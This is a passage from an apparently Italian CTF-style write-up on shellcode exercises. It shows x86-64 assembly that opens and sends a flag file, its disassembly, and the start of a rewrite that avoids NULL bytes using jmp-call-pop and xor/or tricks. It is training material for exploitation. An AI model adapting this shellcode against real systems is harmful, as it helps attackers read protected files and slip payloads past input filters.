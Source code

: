 ```
    #sendfile
    mov rsi, rax
    mov rax, 0x28
    mov rdi, 1
    mov rdx, 0
    mov rcx, 0x64
    syscall

```

## Esercizio 3
Il terzo esercizio dice "This challenge requires that your shellcode have no NULL bytes!"
Per fare ciò si può utilizzare l'esercizio 1 (che è uguale al primo esercizio ma senza `nop`) e analizzarlo con il comando ```objdump -M intel -d shellcode2```
e otterremo 
```
s1:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 b8 2f 66 6c 61 67    movabs rax,0x67616c662f
  401007:       00 00 00 
  40100a:       50                      push   rax
  40100b:       48 8d 3c 24             lea    rdi,[rsp]
  40100f:       48 31 f6                xor    rsi,rsi
  401012:       48 31 d2                xor    rdx,rdx
  401015:       48 c7 c0 02 00 00 00    mov    rax,0x2
  40101c:       0f 05                   syscall 
  40101e:       48 89 c6                mov    rsi,rax
  401021:       48 c7 c0 28 00 00 00    mov    rax,0x28
  401028:       48 c7 c7 01 00 00 00    mov    rdi,0x1
  40102f:       48 c7 c2 00 00 00 00    mov    rdx,0x0
  401036:       48 c7 c1 64 00 00 00    mov    rcx,0x64
  40103d:       0f 05                   syscall
```
come si può notare ci sono byte nulli sul caricamento del indirizzo della flag e sulle istruzioni di `mov`.
Basterà eliminarli caricando l'indirizzo con la tecnica [jmp-call-pop](https://epi052.gitlab.io/notes-to-self/blog/2018-07-15-jmp-call-pop/) e eliminare le mov eseguendo degli xor sui registri seguiti con degli or con i valori da assegnare
```
.intel_syntax noprefix
.global _start
_start:

    jmp pushFlag

    #open
    open:
    xor rax, rax
    pop rdi
    xor rax, rax
    or rax, 2
    xor rdx, rdx
    xor rsi, rsi
    syscall

    #sendfile
    xor rsi, rsi
    or rsi, rax
    xor rdi, rdi
```